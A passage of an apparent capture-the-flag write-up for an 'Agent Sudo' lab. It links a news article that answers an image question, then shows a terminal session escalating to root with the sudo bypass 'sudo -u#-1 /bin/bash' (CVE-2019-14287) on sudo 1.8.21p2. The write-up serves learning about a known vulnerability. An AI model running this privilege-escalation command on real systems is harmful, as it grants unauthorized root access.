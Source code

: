 ```
![Image3](img-3.png)

After searching the picture on google and on fox news  I got the answer of the question link :https://www.foxnews.com/science/filmmaker-reveals-how-he-faked-infamous-roswell-alien-autopsy-footage-in-a-london-apartment

with little bit of searching I’ve managed a way to be root
#### Prvillage escalation

```
james@agent-sudo:~$ sudo --version
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~#
``

**Note** CVE has confused me because the place  where I got exploit has different one.
CVE-2019-14287 this is the one
Agent R → DesKel
